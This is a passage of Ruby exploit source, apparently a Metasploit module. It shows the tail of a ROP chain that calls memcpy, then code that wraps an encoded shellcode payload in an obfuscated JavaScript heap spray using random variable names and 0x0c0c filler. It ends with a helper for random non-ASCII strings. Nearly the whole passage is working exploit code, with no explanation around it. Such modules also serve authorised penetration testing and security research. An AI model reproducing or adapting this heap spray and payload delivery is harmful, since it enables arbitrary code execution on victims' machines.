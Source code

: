 				# -- call memcpy
				0x4a80b692,   # jmp [eax]
	 
				0xffffffff,   # this stuff gets overwritten by the block at 0x4a80aedc, becomes ret from memcpy
				0xffffffff,   # becomes first arg to memcpy (dst)
				0xffffffff,   # becomes second arg to memcpy (src)
				0x00001000,   # becomes third arg to memcpy (length)
				#0x0000258b,   # ??
				#0x4d4d4a8a,   # ??
			].pack('V*')
	 
			var_unescape  = rand_text_alpha(rand(100) + 1)
			var_shellcode = rand_text_alpha(rand(100) + 1)
	 
			var_start     = rand_text_alpha(rand(100) + 1)
	 
			var_s         = 0x10000
			var_c         = rand_text_alpha(rand(100) + 1)
			var_b         = rand_text_alpha(rand(100) + 1)
			var_d         = rand_text_alpha(rand(100) + 1)
			var_3         = rand_text_alpha(rand(100) + 1)
			var_i         = rand_text_alpha(rand(100) + 1)
			var_4         = rand_text_alpha(rand(100) + 1)
	 
			payload_buf = ''
			payload_buf << stack_data
			payload_buf << encoded_payload
	 
			escaped_payload = Rex::Text.to_unescape(payload_buf)
	 
			js = %Q|
	var #{var_unescape} = unescape;
	var #{var_shellcode} = #{var_unescape}( '#{escaped_payload}' );
	var #{var_c} = #{var_unescape}( "%" + "u" + "0" + "c" + "0" + "c" + "%u" + "0" + "c" + "0" + "c" );
	while (#{var_c}.length + 20 + 8 < #{var_s}) #{var_c}+=#{var_c};
	#{var_b} = #{var_c}.substring(0, (0x0c0c-0x24)/2);
	#{var_b} += #{var_shellcode};
	#{var_b} += #{var_c};
	#{var_d} = #{var_b}.substring(0, #{var_s}/2);
	while(#{var_d}.length < 0x80000) #{var_d} += #{var_d};
	#{var_3} = #{var_d}.substring(0, 0x80000 - (0x1020-0x08) / 2);
	var #{var_4} = new Array();
	for (#{var_i}=0;#{var_i}<0x1f0;#{var_i}++) #{var_4}[#{var_i}]=#{var_3}+"s";
	|
	 
			js
		end
	 
		def RandomNonASCIIString(count)
			result = ""
			count.times do
				result << (rand(128) + 128).chr
			end
			result
		end
	 